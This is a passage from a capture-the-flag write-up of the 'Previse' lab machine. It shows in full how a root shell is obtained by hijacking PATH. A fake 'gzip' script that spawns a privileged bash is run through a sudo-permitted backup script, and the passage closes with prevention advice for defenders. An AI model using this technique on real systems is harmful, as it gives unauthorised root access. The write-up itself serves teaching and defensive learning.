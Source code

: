 
## Horizontal Escalation

Next, I had to get root on the box. I looked at what the user could run with `sudo`.

```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh

m4lwhere@previse:~$ ls -l /opt/scripts/access_backup.sh
-rwxr-xr-x 1 root root 486 Jun  6  2021 /opt/scripts/access_backup.sh

m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

I could run a shell script that took a backup of the logs. The script did not use the full path when calling `gzip` and `date`. And the PATH variable was not protected. So I knew that if I changed my path to contain the local folder, I could create a `gzip` file and it would be executed instead of the intended command. 

```bash
m4lwhere@previse:~$ cat gzip
#!/bin/bash

/bin/bash -p 1>&2

m4lwhere@previse:~$ chmod +x gzip

m4lwhere@previse:~$ PATH=.:$PATH sudo /opt/scripts/access_backup.sh

root@previse:/root# cat /root/root.txt
REDACTED
```

## Prevention

The 'errors' in this box are very simple. The script that generated the log file to download should have validated the delimiter that was passed by the user. The script only accepted 3 delimiters. It should have used an allow list and rejected everything else. It should also escape everything it passed to the command line.

The backup script should have used full paths when calling external commands. And `sudo` should be configured to reset the PATH variable by using `env_reset`. And finally, `sudo` permissions were not needed. The script could have been a cron running as root.